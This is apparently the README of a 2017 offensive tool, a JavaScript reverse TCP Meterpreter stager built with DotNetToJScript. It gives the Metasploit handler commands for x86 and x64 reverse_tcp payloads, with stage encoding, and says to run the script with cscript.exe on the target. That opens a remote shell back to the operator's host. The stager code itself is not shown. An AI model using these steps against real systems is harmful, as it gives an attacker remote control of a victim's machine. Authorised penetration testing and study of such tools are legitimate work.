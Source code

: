 ```
     ____. _________   _____          __                
    |    |/   _____/  /     \   _____/  |_  ___________ 
    |    |\_____  \  /  \ /  \_/ __ \   __\/ __ \_  __ \
/\__|    |/        \/    Y    \  ___/|  | \  ___/|  | \/
\________/_______  /\____|__  /\___  >__|  \___  >__|   
                 \/         \/     \/          \/       
```
### JavaScript Reversed TCP Meterpreter Stager - by Cn33liz 2017
CSharp Meterpreter Stager build by Cn33liz and embedded within JavaScript using DotNetToJScript from James Forshaw
https://github.com/tyranid/DotNetToJScript

This Stager should work on x86 as well as x64

```
Usage:
Change RHOST and RPORT settings to suit your needs.

Start Msfconsole:
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp <- When run from x64 version of cscript.exe
set PAYLOAD windows/meterpreter/reverse_tcp <- When run from x86 version of cscript.exe
set LHOST 0.0.0.0
set LPORT 443
set EnableUnicodeEncoding true
set EnableStageEncoding true
set ExitOnSession false
exploit -j 

Then run: cscript.exe JSMeter.js on Target
```
